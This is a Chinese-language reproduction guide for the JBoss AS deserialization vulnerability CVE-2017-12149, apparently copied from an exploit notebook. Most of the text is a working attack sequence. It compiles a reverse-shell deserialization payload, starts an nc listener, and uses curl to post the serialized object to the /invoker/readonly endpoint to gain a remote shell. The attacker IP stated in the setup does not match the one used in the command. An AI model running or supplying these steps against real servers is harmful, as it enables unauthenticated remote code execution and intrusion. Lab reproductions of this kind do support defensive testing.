



# （CVE-2017-12149）JBosS AS 6.X 反序列化漏洞

> 原文：[http://book.iwonder.run/0day/Jboss/（CVE-2017-12149）JBosS AS 6.X 反序列化漏洞.html](http://book.iwonder.run/0day/Jboss/（CVE-2017-12149）JBosS AS 6.X 反序列化漏洞.html)

## 一、漏洞简介

JBOSSApplication Server 反序列化命令执行漏洞(CVE-2017-12149)，远程攻击者利用漏洞可在未经任何身份验证的服务器主机上执行任意代码。漏洞危害程度为高危(High)。

## 二、漏洞影响

JBoss 5.x - 6.x

## 三、复现过程

win7 一台,ip 为 172.26.1.125（靶机，安装了 java 环境)

kali 一台,ip 为 192.168.1.192（攻击机）

进入[http://172.26.1.125:8080/invoker/readonly](http://172.26.1.125:8080/invoker/readonly),若显示状态码为 500 的报错界面，则证明漏洞是存在的 

进入攻击机 kali,下载反序列化工具:[https://github.com/ianxtianxt/CVE-2015-7501/](https://github.com/ianxtianxt/CVE-2015-7501/)

解压完，进入到这个工具目录 执行命令:javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java

继续执行命令:java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.73.131:4444（IP 是攻击机 ip,4444 是要监听的端口) 新界面开启 nc 准备接收反弹过来的 shell。命令:nc -lvnp 4444

这个时候在这个目录下生成一个 ReverseShellCommonsCollectionsHashMap.ser 文件，然后我们 curl 就能反弹 shell 了

curl [http://172.26.1.125:8080/invoker/readonly](http://172.26.1.125:8080/invoker/readonly) --data-binary @ReverseShellCommonsCollectionsHashMap.ser 

这时候我们再看 nc，发现 shell 已经弹回来了. 

